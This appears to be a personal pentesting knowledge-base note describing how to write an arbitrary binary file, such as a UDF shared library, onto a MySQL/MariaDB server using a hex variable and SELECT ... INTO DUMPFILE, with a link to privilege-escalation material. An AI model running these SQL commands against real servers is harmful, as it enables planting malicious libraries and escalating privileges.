 # mysql mariadb write any binary file with file permissions
`set @shell=0x <hex here> ;`
paste in hex as a variable with no quotes.
prepare payload as plain hex with no newlines with ~/kb/bash-scripting/string-to-hex.sh
```SQL
select @@plugin_dir;
select binary @shell into dumpfile '/path/to/file/file.so';
```
additional UDF exploit info: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library

` zet/20221003151233/README.md `

# Related

- [20221013222124](/zet/20221013222124/README.md) concept hub for tricks and tips
- [20221014185545](/zet/20221014185545/README.md) kb file named kb/hacking/tricks/mysql-tricks.md
- [20221003151236](/zet/20221003151236/README.md) mysql mariadb
- ~/kb/hacking/tricks/mysql-tricks.md

Tags:

    #hacking #trick #mysql 
